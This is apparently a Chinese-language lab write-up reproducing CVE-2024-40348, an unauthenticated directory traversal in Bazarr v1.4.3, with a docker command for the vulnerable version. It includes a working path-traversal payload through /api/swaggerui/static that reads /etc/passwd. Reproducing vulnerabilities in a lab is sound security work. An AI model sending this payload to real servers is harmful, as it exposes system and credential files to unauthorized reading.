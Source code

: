 # Bazarr 目录遍历漏洞（CVE-2024-40348）

Bazarr是Sonarr和Radarr的配套应用程序，可根据您的要求管理和下载字幕。Bazarr存在任意文件读取漏洞，该漏洞是由于Bazaar v1.4.3的组件/api/swaggerui/static中存在一个问题，允许未经身份验证的攻击者可利用该漏洞执行目录遍历。

官方地址：https://www.bazarr.media/

版本影响：v1.4.3

参考链接

- https://github.com/4rdr/proofs/blob/main/info/Bazaar_1.4.3_File_Traversal_via_Filename.md

## 漏洞环境

执行如下命令启动一个bazarr:1.4.3

```sh
sudo docker run --name=bazarr -e PUID=1000 -e PGID=1000 -e TZ=Etc/UTC  -p 6767:6767 -v /path/to/bazarr/config:/config -v /path/to/movies:/movies `#optional` -v /path/to/tv:/tv `#optional` --restart unless-stopped lscr.io/linuxserver/bazarr:1.4.3
```

服务启动后，访问`http://your-ip:6767/`

![image-20240928121821898](./1.png)

## 漏洞复现

发送如下payload

/api/swaggerui/static/../../../../../../../../../../../../../../../../etc/passwd

![image-20240928122251602](./2.png)

